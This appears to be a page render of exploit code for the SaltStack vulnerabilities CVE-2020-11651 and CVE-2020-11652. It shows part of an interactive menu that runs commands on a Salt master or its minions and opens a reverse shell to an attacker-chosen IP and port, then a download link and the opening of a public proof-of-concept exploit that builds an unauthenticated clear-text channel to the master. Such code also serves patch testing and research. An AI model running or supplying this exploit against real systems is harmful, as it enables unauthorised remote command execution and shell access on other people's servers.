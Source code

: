 ```python
        elif exectype=='2':
            master_or_minions = 'minions'
        exec_cmd = input('输入命令：')
        pwn_exec(channel, root_key, exec_cmd, master_or_minions)  # 执行命令
    elif whattype=='4':
        LHOST = input('反弹到IP：')
        LPORT = input('反弹端口：')
        pwn_getshell(channel, root_key, LHOST, LPORT)  # 反弹shell
    elif whattype=='5':
        exit()
```



[Download address](https://github.com/jasperla/CVE-2020-11651-poc/blob/master/exploit.py)



```python
#!/usr/bin/env python
#
# Exploit for CVE-2020-11651 and CVE-2020-11652
# Written by Jasper Lievisse Adriaanse (https://github.com/jasperla/CVE-2020-11651-poc)
# This exploit is based on this checker script:
# https://github.com/rossengeorgiev/salt-security-backports

from __future__ import absolute_import, print_function, unicode_literals
import argparse
import datetime
import os
import os.path
import sys
import time

import salt
import salt.version
import salt.transport.client
import salt.exceptions

def init_minion(master_ip, master_port):
    minion_config = {
        'transport': 'zeromq',
        'pki_dir': '/tmp',
        'id': 'root',
        'log_level': 'debug',
        'master_ip': master_ip,
        'master_port': master_port,
        'auth_timeout': 5,
        'auth_tries': 1,
        'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

# --- check funcs ----

def check_connection(master_ip, master_port, channel):
  print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
  sys.stdout.flush()

  # connection check
  try:
    channel.send({'cmd':'ping'}, timeout=2)
  except salt.exceptions.SaltReqTimeoutError:
    print("OFFLINE")
    sys.exit(1)
```